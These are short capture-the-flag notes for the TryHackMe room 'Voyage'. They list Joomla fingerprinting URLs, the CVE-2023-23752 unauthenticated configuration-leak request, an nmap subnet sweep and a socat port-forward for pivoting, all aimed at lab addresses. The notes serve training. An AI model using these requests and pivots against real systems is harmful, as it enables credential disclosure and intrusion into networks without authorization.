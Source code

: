 # for tryhackme room Voyage https://tryhackme.com/room/voyage
# Youtube video walk through: https://youtu.be/vB2KG0V-oc0

Joomla Version:

https://github.com/OWASP/joomscan

http://10.10.113.54/README.txt
http://10.10.113.54/administrator/manifests/files/joomla.xml

CVE-2023-23752

http://10.10.113.54/api/index.php/v1/config/application?public=true

nmap -sn 192.168.100.0/24

socat tcp-listen:5000,fork,reuseaddr tcp:192.168.100.12:5000 &
